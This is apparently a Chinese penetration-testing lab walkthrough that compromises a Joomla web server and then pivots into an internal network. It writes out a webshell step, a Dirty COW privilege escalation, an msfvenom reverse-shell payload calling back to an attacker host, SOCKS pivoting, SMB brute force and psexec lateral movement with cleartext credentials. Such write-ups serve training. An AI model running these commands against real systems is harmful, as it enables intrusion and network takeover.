# 信息打点

环境搭建注意点:web机器全开,web机器重新获取IP


发现有web服务和mysql,ssh尝试一下弱口令

mysql能进,首先尝试一下udf提权,失败
用nvicat连接

尝试写后门到web目录(权限不足)



可以尝试通过日志文件得webshell
看一下安全设置为空

设置日志文件路径,也不行



,放弃mysql,转到后台,找到后台的账户密码



尝试修改管理员密码
d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199(secret)

扫一下后台文件,/administrator/

这里其实暴露了数据库用户testuser,还有1.php文件(phpinfo)



# getshell
进入jommla后台,添加模板文件,写php一句话

访问/templates/beez3/phpinfo.php测试一下是否成功
蚁剑连接执行命令失败,很有可能有disable_fuctions


需要绕过
这里使用蚁剑上的绕过插件的ld_preload模式

再连接新的webshell地址(信息会给出)

查看一下ip,发现ip没有我们所访问的ip,应该想到是做了反向代理,这台服务器才是真正的web服务器

在/tmp/mysql目录下能找到账号密码ssh连接  

```
ssh -o HostKeyAlgorithms=+ssh-rsa wwwuser@192.168.96.129
```

但是两个机器都是web权限,尝试一下提权,赋予执行权限
上传检测脚本linux-exploit-suggester.sh
存在脏牛漏洞

下载并上传脏牛提权脚本(需编译,环境最好用目标机的),并提权

```
gcc -pthread dirty.c -o dirty -lcrypt && chmod +x dirty
```
设置密码123456
切换用户toor

上线msf
```
生成shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.96.128 LPORT=7777 -f elf -o shell.elf

# 启动 Metasploit
msfconsole

# 使用反向 TCP 处理器
use exploit/multi/handler

# 设置载荷（与生成时保持一致）
set PAYLOAD linux/x64/meterpreter/reverse_tcp

# 配置参数
set LHOST 192.168.1.100    # 你的IP地址
set LPORT 4444             # 监听端口


```
至此完成对此机器的完全控制

# 内网阶段


有两个网段,93是内网,96是外网
此时利用socks代理,将此机器作为代理跳板,将kali与内网通信

msf建立socks节点
```
run autoroute -s 192.168.93.0/24

use auxiliary/server/socks_proxy
set srvport 6677

```

利用proxifier对内网进行扫描
规则如下:(还需配置代理服务器就是kali的ip和socks端口)


也可以使用nmap扫描加上代理参数--proxies
```


```
也可以用proxychains
```
sudo vim /etc/proxychains.conf
```

```
proxychains nmap -sS -sV -T4 -A 192.168.93.1/24
```


也可以直接在msf直接操作,探测内网(要配置路由:route add 192.168.93.0 255.255.255.0 会话id)
```
use auxiliary/scanner/discovery/udp_probe

set RHOSTS   192.168.93.1-254

```

扫描结果发现机器上有smb服务
对30的smb服务爆破
```
use auxiliary/scanner/smb/smb_login
set rhost 192.168.93.30
set smbuser administrator
set pass_file ./passwords.txt
```
成功爆破出密码



# 横向移动
使用得到的账号密码smb横向
使用msf上的psexec模块
```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.30
set smbuser administrator
set password 123qwe!ASD
```
执行后`将会获得一个system权限的会话

# 攻陷域控

查找域控IP


